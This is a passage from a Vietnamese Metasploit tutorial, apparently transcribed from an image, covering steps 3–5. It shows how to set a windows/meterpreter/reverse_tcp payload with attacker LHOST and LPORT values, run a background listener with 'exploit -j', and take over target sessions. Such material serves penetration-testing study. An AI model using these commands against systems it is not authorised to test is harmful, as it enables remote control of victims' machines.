 **3. Thiết lập các tùy chọn:**

- Sử dụng lệnh `options` để xem danh sách các tùy chọn có sẵn.
- Các tùy chọn quan trọng cần thiết lập bao gồm:
    - `PAYLOAD`: Chỉ định payload cụ thể bạn muốn sử dụng (ví dụ: `windows/meterpreter/reverse_tcp`).
    - `LHOST`: Địa chỉ IP hoặc hostname của máy tấn công, nơi bạn sẽ lắng nghe kết nối từ mục tiêu.
    - `LPORT`: Cổng mà bạn sẽ lắng nghe trên máy tấn công.
- Sử dụng lệnh `set` để thiết lập giá trị cho từng tùy chọn:
    
    ```jsx
    set PAYLOAD windows/meterpreter/reverse_tcp
    set LHOST 192.168.1.100 
    set LPORT 4444
    ```
    
    - Thay thế các giá trị trong ví dụ trên bằng thông tin thực tế của bạn.

**4. Chạy mô-đun:**

- Sử dụng lệnh `exploit -j` để chạy mô-đun ở chế độ nền (background job). Điều này cho phép bạn tiếp tục sử dụng Metasploit console trong khi chờ kết nối từ mục tiêu.

**5. Quản lý phiên:**

- Khi mục tiêu thực thi payload, Metasploit sẽ bắt kết nối và mở một phiên mới.
- Sử dụng lệnh `sessions -l` để liệt kê tất cả các phiên đang hoạt động.
- Sử dụng lệnh `sessions -i <số phiên>` để tương tác với một phiên cụ thể.
